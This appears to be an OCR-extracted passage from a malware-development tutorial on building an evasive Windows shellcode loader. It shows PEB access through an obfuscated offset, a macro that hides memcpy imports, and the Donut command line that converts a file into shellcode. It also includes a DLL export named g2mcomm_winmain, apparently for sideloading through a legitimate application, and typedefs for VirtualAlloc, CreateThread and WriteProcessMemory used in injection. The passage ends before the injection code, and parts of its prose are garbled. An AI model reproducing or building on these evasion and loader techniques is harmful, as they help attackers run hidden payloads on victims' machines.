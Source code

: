 ```
long addr(){

    return 0x30 * 14;
}
void execute()
{

    long read = addr() / 14;
    PPEB pPEB = (PPEB)__readfsdword(read);
```

Next, we get the library kernel32.dll which contains our functions without GetModuleHandle and LoadLibrary using LDR_DATA_TABLE_ENTRY and the GetProcAdress address, it doesn't make much sense, but still, because we are looking in the list of exported functions.

We will also use a macro to hide the use of memcpy from other libraries:

```
# define memcpy(D,S,N) {char*xxd=(char*)(D);const char*xxs=(const char*)(S);\
                        int xxn=(N);while(xxn-->0)*(xxd++)=*(xxs++);}
```

I will make a test shellcode using -> https://github.com/TheWover/donut having previously decompiled it. We run it and see its arguments.

We are interested in -a - choice of architecture 1 - x32, 2 - x64, and compression -z 2 - aplib, because I have more methods on Linux on Windows, I can use a bagel for Windows using wine. The flag -e by default suits us, -i - input your file, -o output the final file., -f the type of the final file is 3 for our chosen C-like language.

And it turns out that ./donut -a 1 -z 2 -f 3 -i exam shellcode. At the output we will get .h is a file with a shellcode.

Let's import this file #include "name". We get the following final code as a result.

```
#include <winternl.h>
#include "windows.h"
#include "library.h"

void execute();

extern "C" __declspec(dllexport) __attribute__((visibility("default"))) int g2mcomm_winmain(DWORD, int, DWORD, DWORD, DWORD, DWORD){
 
return 0;
}
# define memcpy(D,S,N) {char*xxd=(char*)(D);const char*xxs=(const char*)(S);\
int xxn=(N);while(xxn-->0)*(xxd++)=*(xxs++);}


typedef HMODULE(WINAPI *PGetModuleHandleA)(PCSTR);
typedef FARPROC(WINAPI *PGetProcAddress)(HMODULE, PCSTR);

typedef PVOID(WINAPI *PVirtualAlloc)(PVOID, SIZE_T, DWORD, DWORD);
typedef PVOID(WINAPI *PCreateThread)(PSECURITY_ATTRIBUTES, SIZE_T, PTHREAD_START_ROUTINE, PVOID, DWORD, PDWORD);
typedef PVOID(WINAPI *PWaitForSingleObject)(HANDLE, DWORD);
typedef LPVOID(WINAPI *PVirtualAllocEx)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef HANDLE(WINAPI *PGetCurrentProcess)(VOID);
typedef WINBOOL(WINAPI *PWriteProcessMemory)(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);
long addr(){

return 0x30 * 14;
}
```